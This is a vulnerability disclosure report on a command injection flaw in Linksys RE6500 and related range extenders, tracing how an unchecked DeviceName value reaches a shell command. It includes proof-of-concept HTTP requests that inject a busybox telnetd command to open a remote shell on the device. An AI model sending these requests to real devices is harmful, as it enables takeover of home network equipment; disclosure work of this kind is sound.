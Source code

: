 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500
>
> There is also a stack overflow vulnerability



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setDeviceName` function, `DeviceName` is directly passed by the attacker, so we can control the `DeviceName` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

In `ExecuteOnlineFW` function.

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/4.png" style="zoom:60%;" /></div>

`mod_form.so->um_online_upgrade_fw->libupfw.so->um_get_sign_img_public_key`

In `um_get_sign_img_public_key` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/5.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/6.png" style="zoom:60%;" /></div>

Vulnerability trigger steps:

* set `DeviceName`=RE6500`busybox telnetd -l /bin/sh -p 2237`, in (`setDeviceName`)
* Trigger the vulnerability, in (`ExecuteOnlineFW`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

set `DeviceName`=RE6500`busybox telnetd -l /bin/sh -p 2237`, in (`setDeviceName`)

```http
POST /goform/setDeviceName HTTP/1.1
Host: 192.168.1.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.1.13
Connection: close
Referer: http://192.168.1.13/wireless/wireless_basic.shtml
Cookie: session_id=JKvFrYtTlS5oJMoJ0Pqac9ah7uND9lIQ
Upgrade-Insecure-Requests: 1

DeviceName=RE6500`busybox telnetd -l /bin/sh -p 2237`
```

Trigger the vulnerability, in (`ExecuteOnlineFW`)

```http
POST /goform/ExecuteOnlineFW HTTP/1.1
Host: 192.168.1.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://192.168.1.13
Connection: close
Referer: http://192.168.1.13/wireless/wireless_basic.shtml
Cookie: session_id=JKvFrYtTlS5oJMoJ0Pqac9ah7uND9lIQ
Upgrade-Insecure-Requests: 1
```



## Result

Get a shell!

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>

